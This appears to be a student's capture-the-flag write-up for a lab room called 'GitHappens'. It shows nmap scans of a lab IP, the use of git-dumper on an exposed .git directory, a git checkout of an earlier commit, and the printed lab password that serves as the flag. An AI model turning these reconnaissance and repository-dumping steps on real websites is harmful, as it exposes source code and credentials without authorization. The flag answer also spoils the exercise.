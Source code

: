 ```yaml
---
layout: page
title: GitHappens
permalink: /CSCI24/GitHappens/
---
```


---

[CSCI 24 Directory](https://zacvr.github.io/CSCI24/)
<br/>

---
<br/>

Can you find the password to the application?
---

Looks like we are given a grey box with only an IP and "version control" as a hint

With a quick scan

```nmap -sV 10.10.118.209```

All we see is port 80 having a "nginx 1.14.0" running

Lets try looking for a Git repo shall we?

```nmap -A 10.10.118.209```

<img src="/images/CSCI24/GitHappens/Repo Found.png">

now if we go to

```http://10.10.118.209/``` 

We see a website with a login BUT if we go to

```10.10.118.209:80/.git/```

we can get all the files that we can manually but why not find a script someone has already made to speed up the process?

[Git-Dumper](sudo pip install git-dumper)

Now we need to install the Git-Dumper

```sudo pip install git-dumper```

Now lets downlaod the files

```git-dumper http://10.10.118.209:80/.git  ~/Here```

If you cat the README.md

you find the easter egg "git-fail

Sometimes, bad things happen to good sites"

If we cat the index we find a script at the bottom that we need to decode

Orrrr not?

okay well if we go to 

```git log``` while in ~/Here we see the commits mad to the git

after some googling we can go to specific commits of the git

<img src="/images/CSCI24/GitHappens/Commits.png">

```sudo git checkout 395e087334d613d5e423cdf8f7be27196a360459```

Lets look at the index again

```cat index.html```

<img src="/images/CSCI24/GitHappens/Password.png">


Find the Super Secret Password

***Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!***

